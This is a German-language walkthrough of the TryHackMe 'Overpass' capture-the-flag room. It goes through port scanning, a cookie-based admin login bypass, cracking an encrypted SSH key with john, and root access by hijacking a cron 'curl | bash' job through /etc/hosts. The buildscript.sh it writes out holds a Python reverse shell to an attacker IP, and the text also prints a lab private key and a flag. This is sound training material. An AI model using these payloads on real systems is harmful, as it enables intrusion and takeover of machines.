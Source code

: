 # Overpass 1 CTF tryhackme.com
> Link zur CTF: [tryhackme.com](https://tryhackme.com/room/overpass)

Als erstes Scannen wir die IP-Adresse nach offene Ports um uns ein überblick zu verschaffen:<br>

* Command: `nmap -sV -A -oN scan.txt <TARGET-IP>`<br>

### Nmap Scan Result:
```
# Nmap 7.94SVN scan initiated Sun Feb 18 22:26:31 2024 as: nmap -sV -A -oN scan.txt 10.10.129.208
Nmap scan report for 10.10.129.208
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 22:26:48 2024 -- 1 IP address (1 host up) scanned in 16.27 seconds
```

es sind also 2 Ports offen. SSH ist nicht angreifbar, aber http ist interesant also konzentrieren wir uns auf port 80.
Als erstes Scannen wir die website nach verzeichnisse und bruteforcen diese:<br>

* Command: `gobsuter dir http://10.10.197.218/ /usr/share/wordlists/dirb/command.txt`<br>

### Gobuster Result:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.218/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]

===============================================================
Finished
===============================================================
```
Ein interesantes gibt es bei dem ergebnis: **/admin** sieht wie eine Login-Page aus.<br>

### /admin page:
![Admin anmelde Seite](./admin_page.png)

nach dem ich einmal zum test **username=admin&password=admin** ausprobiert habe habe ich mit dem Browser-Tools von Mozilla Firefox sehen können das eine .js Datei angesprochen wird namens: **login.js** wenn wir uns diesen code mal ansehen finden wir folgende interesante funktion:<br>

* login.js:
  ```javascript
    async function login() {
      const usernameBox = document.querySelector("#username");
      const passwordBox = document.querySelector("#password");
      const loginStatus = document.querySelector("#loginStatus");
      loginStatus.textContent = ""
      const creds = { username: usernameBox.value, password: passwordBox.value }
      const response = await postData("/api/login", creds)
      const statusOrCookie = await response.text()
      if (statusOrCookie === "Incorrect credentials") {
          loginStatus.textContent = "Incorrect Credentials"
          passwordBox.value=""
      } else {
          Cookies.set("SessionToken",statusOrCookie)
          window.location = "/admin"
      }
    }
  ```
in diesem code gibt es eine sicherheits lücke die in einem echten Senario ziemlich fatal währe,<br>der Fehler liegt in: `(statusOrCookie === "Incorrect credentials")` Man könnte einfach sein Cookie auf `"statusOrCookie"` setzen über die Browser-Console<br>

* Command: `Cookies.set("SessionToken","statusOrCookie")` <br>

und die Seite neuladen und dadruch das login umgehen, und ich bin drin!<br>

### Seiten Inhalt:
```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
Auf der seite finden wir eine nachricht an den User: **James** und einen verschlüsselten **id_rsa** key für den fall das er sein Password vergisst. Anscheinend ist diese Function im Code eine art Backdoor für den Entwickler aber leider nicht personalisiert genung und zu offensichtlich.
<br>
Also speichern wir uns diesen Key auf unseren system in einer datei. Aber wir müssen sie noch entschlüsseln<br>
<br>
dafür benutze ich: `ssh2john`
* Command: `ssh2john id_rsa > hash`<br>
<br>
Jetzt führen ich einen Hash Brute Force angriff aus:<br>
<br>

* Command: `john hash --wordlist=/usr/share/wordlists/rockyou.txt`

  ### John Result:
  ```
  id_rsa:james13

  1 password hash cracked, 0 left
  ```
  <br>  
* Command: `chmod 600 id_rsa`<br>
  <br>
  
jetzt haben wir auch den schlüssel um uns auf denn SSH Server einzuloggen.<br>
Nun loggen wir uns ein mit: `ssh james@IP -id id_rsa` auf dem Server ein,<br>
geben das Password ein für die id_rsa datei: **james13** und wir sind drin!<br>
<br>

### SSH Server:
![SSH Server login](./login_ssh.png)

User Flag: `thm{65c1aaf000506e56996822c6281e6bf7}`<br>
<br>
Nach dem ich auf dem System **linpeas** ausführe und das systeam nach PrivEsc möglichkeiten scannen finde ich in der **/etc/crontab** file eine Aufgabe die jede Minute ausgeführt wird:<br>
`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`<br>
Erklärung:
* Argument 1: `* * * * *` bedeutet dass das die Aufgabe jede Minute ausgeführt wird<br>
* Argument 2: `root` bedeutet das es mit root rechten ausgeführt wird<br>
* Argument 3: `curl overpass.thm/downloads/src/buildscript.sh | bash` ist das was ausgeführt wird

Das ist interesant es wird eine curl abfrage an overpass.thm/downloads/src/buildscript.sh gestellt und die Aufgabe wird automatisch ausgeführt. Was ich noch durch linpeas sehen konnte ist das die **/etc/hosts** bearbeitet werden kann, also könenn wir der domain overpass.thm einfach mit unsere IP-Addresse wechseln und erstellt auf unseren System einfach ein **/downloads/src** Ordner und das **buildscript.sh** mit einer rshell.<br>
<br>
ich entscheide mich für:
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.65.124",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
<br>

## buildscript.sh content:
```bash
#!/bin/sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.65.124",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Als nächstes starte ich ein python3 http.server auf dem port 80 da der target server immer den port 80 abfragt, wichtig ist den server in dem Ordner vor /downloads zu starten und gleichzeitig einen rshell listener zu starten in meinem fall:<br>
<br>
* Command: `nc -lnvp 4444`<br>
<br>
Jetzt heißt es warten bis der Target Server das Script downloaded und ausführt, und ich hab eine root shell<br>

![root access terminal](./root_access.png)




